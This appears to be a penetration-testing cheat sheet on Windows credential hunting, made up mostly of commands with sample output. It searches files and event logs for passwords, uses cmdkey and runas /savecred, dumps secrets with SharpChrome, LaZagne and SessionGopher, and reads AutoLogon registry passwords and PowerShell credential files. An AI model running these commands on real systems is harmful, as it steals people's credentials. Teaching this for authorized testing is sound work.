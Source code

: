 # Credential Theft

Credential hunting involves searching for sensitive information, such as usernames and passwords, within various files and system locations. Below are methods for locating credentials on Windows systems.

### **Searching Security Logs Using wevtutil**

You can query security logs for specific user actions, such as logins or credential usage:

```powershell
PS C:\dbs> wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

#### Example Output:

```perl
Process Command Line:   net use T: \\dbs\users /user:dollar P@ssword
```

### **Searching for Credentials in Files**

#### Using Command Prompt

*   Search for specific terms like "password" in various file types:

    ```cmd
    C:\dbs> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
    ```

    * **Flags**:
      * `/S`: Search in the current directory and all subdirectories.
      * `/I`: Ignore case sensitivity.
      * `/M`: Output only filenames containing the search string.
*   Searching within a specific user directory:

    ```cmd
    C:\dbs> findstr /S /I /C:"password" "C:\Users\*"*.txt *.ini *.cfg *.config *.xml
    ```
*   Manually searching a user's Documents folder:

    ```cmd
    C:\dbs> cd C:\Users\dollarboysushil\Documents & findstr /SI /M "password" *.xml *.ini *.txt
    ```

#### Using PowerShell

*   To search through text files in the Documents folder:

    ```powershell
    PS C:\dbs> select-string -Path C:\Users\dollarboysushil\Documents\*.txt -Pattern password
    ```
*   To find files with "pass" in their names:

    ```powershell
    C:\dbs> dir /S /B *pass*.txt, *pass*.xml, *pass*.ini, *cred*, *vnc*, *.config*
    ```
*   Searching recursively for configuration files:

    ```powershell
    C:\dbs> Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
    ```

### **Further Credential Theft**

#### Listing Stored Credentials

*   To list stored usernames and passwords:

    ```cmd
    C:\dbs> cmdkey /list
    ```
*   To run a command as another user and save credentials:

    ```powershell
    C:\dbs> runas /savecred /user:marvel\james "COMMAND HERE"
    ```

#### Retrieving Browser Credentials

*   Use SharpChrome to retrieve cookies and saved logins from Google Chrome:

    ```powershell
    PS C:\dbs> .\SharpChrome.exe logins /unprotect
    ```
*   Using Lazagne to retrieve credentials from various applications:

    ```powershell
    PS C:\dbs> .\lazagne.exe all
    ```
*   Extracting saved credentials from various applications using SessionGopher:

    ```powershell
    C:\dbs> Import-Module .\SessionGopher.ps1
    C:\dbs> Invoke-SessionGopher -Target WIN01
    ```

### **Windows AutoLogon**

Windows AutoLogon allows a user to configure their system to automatically log into a specific account without entering credentials each time. The relevant registry keys can be found under `HKEY_LOCAL_MACHINE`:

```cmd
C:\dbs> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

#### Example Output:

```css
AutoAdminLogon    REG_SZ    1
DefaultUserName   REG_SZ    dollarboysushil
DefaultPassword   REG_SZ    pleasesubscribe
```

### **Clear-Text Password Storage in the Registry**

#### PuTTY

* Saved sessions for PuTTY can be found in the following registry location:

```php-template
Computer\HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>
```

#### Viewing Saved Wireless Networks

*   To view saved wireless network profiles:

    ```cmd
    netsh wlan show profile
    ```

### **PowerShell Credentials**

PowerShell credentials can be stored and retrieved securely for scripting purposes. They are encrypted using Data Protection API (DPAPI) and can be decrypted only by the same user on the same computer.

#### Example Commands:

```powershell
C:\dbs> $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
C:\dbs> $credential.GetNetworkCredential().username
dollar
C:\dbs> $credential.GetNetworkCredential().password
pleasesubscribe
```
